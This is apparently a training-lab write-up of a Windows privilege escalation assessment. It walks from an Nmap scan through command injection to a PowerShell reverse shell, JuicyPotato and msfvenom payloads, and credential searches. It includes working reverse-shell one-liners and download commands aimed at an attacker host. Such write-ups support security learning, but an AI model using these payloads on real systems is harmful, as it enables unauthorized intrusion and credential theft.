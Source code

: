 # Windows Privilege Escalation Skills Assessment - Part I
During a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.

For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.

Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

## 🔎 Initial Recon with Nmap
My first step was to identify open ports and services running on the target machine using a stealthy scan:
```bash
sudo nmap -sC -sV -Pn 10.129.225.12
```
![image](https://github.com/user-attachments/assets/2692cd59-62af-4611-b4ba-183d66e38bc9)

**Key Findings:**
Port 80 is running Microsoft IIS 10.0, showing a basic page titled “DEV Connection Tester.”

Port 3389 is open but not useful in our case since we don’t have valid credentials for RDP.

TRACE is enabled, which could be risky, but the bigger lead is the web interface.

## 🌐 Accessing the Web Interface
Visiting http://10.129.225.12/ in the browser revealed something interesting — a webshell interface.
After a few attempts, I realized the interface accepted system commands and returned output, albeit in a sanitized format.

![image](https://github.com/user-attachments/assets/4c92a944-0c39-453b-bd66-f8efe498db3f)

When I tested with whoami; responded with host not found. 

## 🧪 Testing Command Injection Behavior
To understand the command parser behind the webshell, I tested some basic input tricks:
```bash
127.0.0.1 | whoami
```
This worked and printed the result — suggesting the backend was piping the input and not strictly validating or sanitizing it. This was crucial for payload crafting.

![image](https://github.com/user-attachments/assets/ebc32339-7cff-457b-96ba-a4c162a8dddc)

## 🕵️‍♂️ Exploiting for Reverse Shell
Since we couldn’t interact directly with the shell, I needed a PowerShell reverse shell payload that could be injected via this command interface.

Here’s the PowerShell one-liner I used:
```bash
127.0.0.1 | powershell -nop -w hidden -c "$client = New-Object Net.Sockets.TCPClient('10.10.14.45',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
🔥 The use of `127.0.0.1 |` helped bypass some restrictions in the input handling logic.

## 🛎️ Setting Up a Netcat Listener
On my attacker machine, I set up a listener to catch the reverse shell:
```bash
nc -lvnp 4444
```
After submitting the payload via the webshell, I received a connection!
Got a reverse shell as a low-privilege user.

![image](https://github.com/user-attachments/assets/c34679cc-f34e-4727-9867-49226bdbcb8f)

## 🔍 Privilege Escalation Discovery
Checked for privileges with `whoami /priv` command and found that `SeImpersonatePrivilege` Enabled.

![image](https://github.com/user-attachments/assets/fe146445-f6ab-48bb-9626-aed0c7211573)

Machine is vulnerable to Juicy Potato privilege escalation (Windows Server 2016 + SeImpersonate).

## 🛠️ Tool Transfer and Execution
**Setup HTTP Server (Attacker)**
```wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
python3 -m http.server 8080
```
**Transfer JuicyPotato to Victim**
```bash
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.45:8080/JuicyPotato.exe','C:\Tools\jp.exe')"
```
**Create Reverse Shell Payload**
```bash
msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.45 lport=9999 -f raw > shell.bat
```
Transfer shell.bat using the same HTTP server and PowerShell download method.

![image](https://github.com/user-attachments/assets/cbeb88e1-dd45-471a-bb34-63943d035411)


**Execute Juicy Potato**
```bash
C:\Tools\jp.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Tools\shell.bat" -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```
![image](https://github.com/user-attachments/assets/9957404b-d484-4015-a238-3ab08319a021)

**Set listener:**
```bash
nc -lvnp 9999
```
![image](https://github.com/user-attachments/assets/3dafa90c-05ff-4b14-8e1b-09c833856c18)

## ✅ Privilege Escalation Achieved
In the new shell:
```bash
whoami
```
![image](https://github.com/user-attachments/assets/cd86fdc8-9d5c-4d23-9b2a-5ac75807a5de)

## 🎯 Post Exploitation and Flag Retrieval
**Search for Sensitive Files**
```bash
dir C:\ /s /b | findstr /i "confidential.txt"
```
Found confidential.txt containing a flag.

![image](https://github.com/user-attachments/assets/7090d170-1003-47a3-aeb3-d757ad0eac1f)

**Administrator Flag**
Negivated to the Administrator's Desktop and found a flag.

**Search for LDAP Password**
```bash
powershell -Command "Get-ChildItem -Path C:\Users\ -Recurse -File -ErrorAction SilentlyContinue | Select-String -Pattern 'ldapadmin'"
```
![image](https://github.com/user-attachments/assets/a2cbaa77-0854-4e05-80c3-4647842127b2)

Successfully found credentials or strings related to `ldapadmin`.

**Patch Check**
`systeminfo' gave two KB's running in the system.
